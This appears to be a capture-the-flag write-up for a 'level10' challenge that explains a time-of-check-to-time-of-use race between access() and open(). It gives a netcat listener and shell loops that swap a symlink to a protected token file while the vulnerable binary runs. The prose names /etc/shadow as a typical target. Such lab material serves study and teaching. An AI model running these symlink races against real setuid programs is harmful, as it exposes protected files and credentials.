 
# Level10

```bash
ltrace ./level10 token 127.0.0.1
```

It is a race condition. You do the access(), then you do the open(). In the small time between the two calls, the file may have changed. Typically, the file is, say, /tmp/foo. Initially, the file is owned by some user (who is the bad guy of the story), and the target is some root-powered application. The application does the access(), sees that the file really belongs to the user, and thus thinks: "that's fine, it's his file, I can process it on his behalf". Then the bad guy quickly replaces the file with a symbolic link to /etc/shadow. The application has already taken the decision to open /tmp/foo, but when it does, it really opens and processes /etc/shadow.

```bash
nc -k -l localhost 6969
```

```bash
touch /tmp/bad
chmod 777 /tmp/bad

while [ 1 ]
do
 ln -s /tmp/bad /tmp/link
 ln -s /home/user/level10/token /tmp/link
done
```

```bash
while [ 1 ]
do
 /home/user/level10/level10 /tmp/link 127.0.0.1
done
```
